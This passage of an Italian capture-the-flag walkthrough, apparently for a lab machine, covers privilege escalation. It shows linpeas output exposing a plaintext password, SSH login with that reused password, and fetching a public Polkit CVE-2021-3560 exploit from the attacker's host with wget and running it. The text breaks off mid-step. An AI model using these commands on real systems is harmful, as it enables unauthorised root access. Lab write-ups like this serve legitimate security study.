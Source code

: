 ```zsh
$ ./linpeas.sh
```

## 17) Cosa abbiamo scoperto con linpeas.sh:

ROCKETCHAT_USER=recyclops

ROCKETCHAT_PASSWORD=Queenofblad3s!23

E

In rosso "runc was found in /usr/bin/runc, you may be able to escalate privileges with it"

## 18) Proviamo a collegarci tramite ssh a dwight:

```zsh
$ ssh dwight@10.10.11.143
```
Password : Queenofblad3s!23

## 19) Utilizziamo una escalate priviliges:

Cercando su internet si trova Polkit 

## 20) Se non c'è il file poc.sh:
 "https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation" lo scaricate da qui.

## 20 B ) Come mettere poc.sh se non ci fosse :

Si va nella directory dove si è scaricato e aprite il terminale li

```zsh
$ python3 -m http.server 80
```

POI andate nel terminale dove sta " nc " in cui siete collegati al bot e scrivete 

```zsh
$ wget  {IP tun0}/poc.sh
```

## 21) Facciamo partire poc.sh:

```zsh
$ ./poc.sh
```
se non parte subito scrivete

```zsh
$ chmod +x poc.sh
```
poi fate ripartire 

```zsh
$ ./poc.sh
```
Dopo vari tentativi scrivete

